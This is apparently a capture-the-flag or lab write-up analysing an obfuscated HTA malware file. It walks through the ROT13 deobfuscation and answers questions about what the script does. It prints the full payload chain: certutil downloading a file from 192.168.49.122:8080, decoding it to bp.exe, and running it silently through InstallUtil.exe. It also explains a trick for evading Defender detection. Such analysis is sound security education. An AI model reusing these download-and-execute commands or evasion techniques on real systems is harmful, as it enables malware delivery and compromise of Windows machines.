


## Description
>A suspicious HTA (HTML Application) file was found on an infected machine. The file is obfuscated to hide its true purpose. Your task is to analyze the code, reverse the obfuscation, and determine what the file is doing. Focus on how the code works and the actions it performs to uncover its true purpose.

## Investigation
The script defines "alph" for the alphabet string, and "ranalph" for presumably randomized alphabet string:
```js
   var alph = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz".split("");  
   var ranalph = "NOPQRSTUVWXYZABCDEFGHIJKLMnopqrstuvwxyzabcdefghijklm".split("");
   var num = "0123456789".split("");  
   var sym = "/$:;-\\%#*&!. ".split("");
```

A careful look can see that `ranalph` is not truly randomized, but rather has the alphabet shifted. `num` stores numbers, and `sym` is for special characters, symbols.

The `scram` function defines a nested loop that exchanges a character from `alph` with the same character number presented in `ranalph`:
```js
var scram = function(sample) {  
       var result = "";  
       for (var x=0; x<sample.length; x++) {  
               for (var y=0; y<alph.length; y++) {  
                       if (sample[x]==alph[y]) {  
                               result+=ranalph[y];  
                       }  
               }  
       for (var s=0; s<sym.length; s++) {  
           if(sample[x]==sym[s]) {  
               result+=sym[s];  
           }  
       }  
       for (var n=0; n<num.length; n++) {  
           if(sample[x]==num[n]) {  
               result+=num[n];  
           }  
       }  
          
       }  
       return result.toString();  
   }
```

As `ranalph` is ROT13 of original, this transforms strings by character shifting 13 letters. Numbers and special characters are also included if they exist in the `sym` or `num` variables. There is not much more to obfuscation, so we can proceed with deobfuscating and answering questions

## Answers


### 1. What is the deobfuscated result of the sample in str1?
In an interesting method to obfuscate, the comments above messages contain the deobfuscated string:
```js
   //certutil.exe -urlcache -split -f    
   var sample = " preghgvy.rkr -heypnpur -fcyvg -s ";
```

Regardless, we can use CyberChef's ROT13 to deobfuscate



### 2. After deobfuscating the sample in str2, what is the resulting output?

The str2 function:
```js
   // 192.168.49.122:8080/file.txt C:\\Windows\\Tasks\\file.txt  
   sample = "192.168.49.122:8080/svyr.gkg P:\\Jvaqbjf\\Gnfxf\\svyr.gkg" //modify IP:PORT and payload as required;  
   str2 = scram(sample);
```

### 3. What is the deobfuscated result of sample in str3?

```js
   //http://  
   sample = "uggc://"  
   str3 = scram(sample);
```

### 4. What does the sample in str4 translate to after deobfuscation?
```js
   // certutil -decode C:\\Windows\\Tasks\\file.txt C:\\Windows\\Tasks\\bp.exe  
   sample = "preghgvy -qrpbqr P:\\Jvaqbjf\\Gnfxf\\svyr.gkg P:\\Jvaqbjf\\Gnfxf\\oc.rkr";  
   str4 = scram(sample);
```

### 5. What is the deobfuscated result of sample in str5?

```js
   // C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\InstallUtil.exe /logfile= /LogToConsole=false /U C:\\Win  
dows\\Tasks\\bp.exe  
   sample = "P:\\Jvaqbjf\\Zvpebfbsg.ARG\\Senzrjbex64\\i4.0.30319\\VafgnyyHgvy.rkr /ybtsvyr= /YbtGbPbafbyr=snyfr /H  
P:\\Jvaqbjf\\Gnfxf\\oc.rkr";  
   str5 = scram(sample);
```

### 6. What is the deobfuscated value of the "wobj" variable?

```js
   //Wscript.shell  
   sample = "Jfpevcg.furyy";  
   wobj = scram(sample);
```

### 7. What is the purpose of the cmd variable in the script?

```js
   //%compspec% is an env var for cmd.exe, set t= sets an env variable containing the string http which defende  
r was flagging on.
   cmd = "%comspec% /v /c \"set t=" + str3 + "&&" + str1 + "!t!" + str2 + "\"";
```

The commented message this time is not the decoded command this time, but considering we have already decoded the variables `str3`, `str1` and `str2` it is a matter of combining the values together:
```
%comspec% /v /c "set t=http://&&certutil.exe -urlcache -split -f!t!192.168.49.122:8080/file.txt C:\Windows\Tasks\file.txt"
```

Alternatively, the commented commands at the end provide a suggestion you can use to print out the commands
```js
   cmd = "%comspec% /v /c \"set t=" + str3 + "&&" + str1 + "!t!" + str2 + "\"";  
   cmd2 = str4;  
   cmd3 = str5;  
   //alert(cmd);  
   //alert(cmd2);  
   //alert(cmd3);
```

We can paste the script into a javascript sandbox and produce `cmd`, `cmd2` and `cmd3`. Using [JavaScript Playground](https://playcode.io/javascript): 



```
cmd: %comspec% /v /c "set t=http://&& certutil.exe -urlcache -split -f !t!192.168.49.122:8080/file.txt C:\Windows\Tasks\file.txt"
cmd2: certutil -decode C:\Windows\Tasks\file.txt C:\Windows\Tasks\bp.exe
cmd3: C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile /LogToConsolefalse /U C:\Windows\Tasks\bp.exe
```

### 8. What is the second command executed by the "ActiveXObject"

The second command is `cmd2`, so this is answered above. 
```
certutil -decode C:\Windows\Tasks\file.txt C:\Windows\Tasks\bp.exe
```

## Impact

Decoding the `cmd` variables directly conveys what the script attempts to accomplish

### cmd
```
%comspec% /v /c "set t=http://&& certutil.exe -urlcache -split -f !t!192.168.49.122:8080/file.txt C:\Windows\Tasks\file.txt"
```

Using `%comspec%` invokes cmd.exe. `/v` flag allows for variables to be assigned (the "set t=" section), `/c` flag is for executing the following arguments. As commented in the original payload, "http://" is set as a variable and invoked later as `!t!` to avoid antivirus flags.

`certutil.exe` is invoked to download a remote file from the address `http://192.168.49.122:8080/file.txt`, and saved as `C:\Windows\Tasks\file.txt`. 

### cmd2

```
certutil -decode C:\Windows\Tasks\file.txt C:\Windows\Tasks\bp.exe
```

`certutil -decode` decodes input from base64, the file `file.txt`. The output is a PE file, `C:\Windows\Tasks\bp.exe`

### cmd3

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile /LogToConsolefalse /U C:\Windows\Tasks\bp.exe
```

Using the .NET Framework assembly installer `InstallUtil.exe` to install the payload `bp.exe`. `LogToConsolefalse` will hide information output to console, effectively acting as a "silent" install.
